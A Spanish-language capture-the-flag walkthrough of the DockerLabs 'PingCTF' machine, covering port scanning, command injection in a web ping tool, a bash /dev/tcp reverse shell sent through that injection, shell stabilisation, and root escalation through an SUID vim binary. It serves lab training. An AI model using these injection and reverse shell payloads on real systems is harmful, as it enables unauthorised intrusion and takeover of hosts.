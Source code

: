 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PingCTF DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pingctf.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pingctf.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-29 03:12 EDT
Nmap scan report for packer.pw (172.17.0.2)
Host is up (0.000050s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.61 seconds
```

Veremos simplemente un puerto `80` en el que aloja una pagina web, si entramos dentro veremos una pagina en la que es una herramienta de `ping` dejandote realizar un `ping` hacia una `IP` o `dominio` ya estaremos viendo cosas interesantes, por lo que vamos a realizar un poco de `fuzzing` a ver que vemos.

Si probamos a concatenar comandos de esta forma:

```
127.0.0.1; ls
```

Info:

```
index.html
ping.php
```

## Escalate user www-data

Vemos que funciona, por lo que vamos a probar a realizar una `reverse shell` de esta forma:

```
127.0.0.1; bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Ahora si nos ponemos a la escucha antes de enviar el comando.

```shell
nc -lvnp <PORT>
```

Cuando enviemos el comando, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 60564
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@9c4611d5ea26:/var/www/html$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos en el sistema veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
3699283     56 -rwsr-xr-x   1 root     root        55680 Dec  5  2024 /usr/bin/su
  3699075     72 -rwsr-xr-x   1 root     root        72792 May 30  2024 /usr/bin/chfn
  3699206     40 -rwsr-xr-x   1 root     root        40664 May 30  2024 /usr/bin/newgrp
  3699142     76 -rwsr-xr-x   1 root     root        76248 May 30  2024 /usr/bin/gpasswd
  3699217     64 -rwsr-xr-x   1 root     root        64152 May 30  2024 /usr/bin/passwd
  3699309     40 -rwsr-xr-x   1 root     root        39296 Dec  5  2024 /usr/bin/umount
  3699201     52 -rwsr-xr-x   1 root     root        51584 Dec  5  2024 /usr/bin/mount
  3699081     44 -rwsr-xr-x   1 root     root        44760 May 30  2024 /usr/bin/chsh
  3717295   4032 -rwsr-xr-x   1 root     root      4126400 Apr  1 20:12 /usr/bin/vim.basic
```

Vemos la ultima linea bastante interesante:

```
3717295   4032 -rwsr-xr-x   1 root  root  4126400 Apr  1 20:12 /usr/bin/vim.basic
```

Sabemos que en los sistema de `Linux` los puntos no establecen la extension en el sistema como en `Windows` por lo que eso funciona como `Vim` y tiene permisos `SUID`, pero en este caso da algunos errores los cuales dificultan el poder explotar algo.

Si probamos de esta forma:

```shell
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```

Info:

```
.............................<RESTO_DE_CODIGO>.....................................
E79: Cannot expand wildcards


E79: Cannot expand wildcards
bash-5.2# whoami
root
```

Veremos que con esto seremos `root`, por lo que habremos terminado la maquina.
